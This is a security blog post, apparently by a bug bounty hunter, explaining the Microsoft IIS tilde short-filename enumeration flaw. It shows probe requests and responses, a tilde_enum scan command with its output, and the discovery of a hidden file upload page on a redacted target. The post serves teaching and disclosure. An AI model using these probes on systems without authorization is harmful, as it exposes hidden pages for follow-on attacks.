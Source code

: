 ```yaml
---
title: Microsoft IIS Tilde Enumeration - Legacy Nightmare
date: 07/07/2017
---
```

Recently during a bug bounty program I came across a particularly, "rare" vulnerability that often few people (myself included) don't quite understand. At first glance, the Microsoft IIS Tilde (~) Enumeration vulnerability seems like one of those cases where a feature is a bug (similar to [XXE](https://web.archive.org/web/20190514192329/https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)).

This article aims to dive deeper into the Windows filesystem, the enumeration vulnerability and it's impact on a web application.

> **Note** &mdash; All the information here is from a live bug bounty and not a local test setup to display the vulnerability. Public disclosure has not yet been granted and thus any references to the actual web application have been omitted.

---

## Feature Rich

When creating a new file on a Windows system, a short file name is generated using 8.3 format which can be seen when opening up your command prompt and running `dir /X` like so.

![](../res/microsoft-iis-tilde-enumeration--legacy-nightmare/0lzbW4V.png)

This might seem obvious and not so horrible at first glance. Let's tackle this from a different perspective. I originally had a file named fileupload-20170707-N6L7dR4KcA.aspx which in the 8.3 file format is translated to `FILEUP~1.ASP`. I can now access the resource whilst only having to guess 12 characters instead of 32 and thus **greatly** reduced the total number of combinations required!

Some of you may be asking, "Why the short name?". The answer is essentially, to support old MS-DOS or 16-bit programs; this is the foundation for everything else that occurs throughout this article. That out of the way, enough with the boring stuff. Let's try to get a real target.

## The Target

When an application is powered by ASP.NET there is a good chance that the vulnerability can be found in some form or another. The idea is to cause the application to give a different response for more or less the same resource. However to confirm that the resource exists, I ran two tests.

### First Test

Check that the application will not respond differently when the file actually does not exist. Starting without the `~1` in the path.

#### Request

```none
GET /nonexistent-random-file/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

So far so good, let's try the same thing using the `~1` instead.

#### Request

```none
GET /nonexistent-random-file~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

Same response, which is what we are looking for here. Great, now moving on to the next stage.

### Second Test

We know that the server will always respond with a `404 Not Found` when the file either in normal format or in 8.3 format does not exist. What happens when we try to access a file using 8.3 format that does exist? The server will respond with a `404 Not Found` if the resource does not exist, even if we use 8.3 format. Let's see what we can do to trigger another response.

#### Request

```none
GET /fileup~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache
Content-Type: text/html; charset=utf-8
Pragma: no-cache
Content-Length: 576
```

Bang! The site returned a 200 OK but still told us that the request was rejected:

_Error with your request_

That's great, we managed to get a different response which means there is something lingering in there.

## Extending the Discovery

Testing all of this manually is monkey's work. Let's use an automated tool such as [tilde_enum](https://web.archive.org/web/20190514192329/https://github.com/WebBreacher/tilde_enum) (used Python v2.7.11) instead to see if it finds anything juicy.

We need to first download a WORDLIST for the scanner to use. I happened to use the following [list](https://web.archive.org/web/20190514192329/https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web_Content/raft-small-words-lowercase.txt). Kicking off the scan.

```cmd
C:\tmp\tilde_enum-master>"C:/Python27/python" tilde_enum.py -u https://example.com/ -w raft-small-words-lowercase.txt -f
[-] Testing with dummy file request https://example.com/PLb4ftIiaW.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1245
[-] Testing with user-submitted https://example.com/
[-] URLUser -> HTTP Code: 200, Response Length: 3775
[!] You have used the -f switch to force us to scan. Well played. Using the IIS/6 "*~1*/.aspx" string.
[+] Found a directory: advert
[+] Found a directory: app_of
[+] Found a directory: aspnet
[+] Found a directory: associ
[+] Found a directory: buyers
[+] Found a directory: commit
[+] Found a directory: confer
[+] Found a directory: errorp
[+] Found a directory: fileup
[+] Found a directory: fundra
[+] Found a directory: leader
[+] Found file: logo-2 . jpg
[+] Found a directory: mainte
[+] Found a directory: member
[+] Found a directory: messag
[+] Found a directory: resour
[+] Found a directory: subscr
[+] Found a directory: testlo
[+] Found a directory: webbac
[+] Found a directory: webpor
[-] Finished doing the 8.3 enumeration for /.
```

This is only a subset of the entire scan however we already found something juicy in there. From the list I can see filup which as most of you have already guessed, maps to `fileupload.aspx`. Let's find out.

Sending the first request to `fileup~1` like we saw before also return a `200 OK` along with the response.

![](../res/microsoft-iis-tilde-enumeration--legacy-nightmare/rpGofln.png)

Let's try accessing the file directly using `fileupload.aspx` instead and see if it responds with the actual file.

![](../res/microsoft-iis-tilde-enumeration--legacy-nightmare/A5h4l7f.png)

Looks like we just scraped the tip of the iceberg! A random file upload page that isn't linked anywhere in the web application but can be accessed directly; definitely juicy.

## Conclusion

That is all with regards to the Microsoft IIS Tilde Enumeration vulnerability. Below are some references and resources that would help you learn further and into more detail should you wish to.

The vulnerability itself may not seem scary alone but it could definitely expose some sensitive pages or directories to chain into another attack.

--- 

## Resources

* https://www.acunetix.com/blog/web-security-zone/windows-short-8-3-filenames-web-security-problem/
* http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf
* https://github.com/WebBreacher/tilde_enum
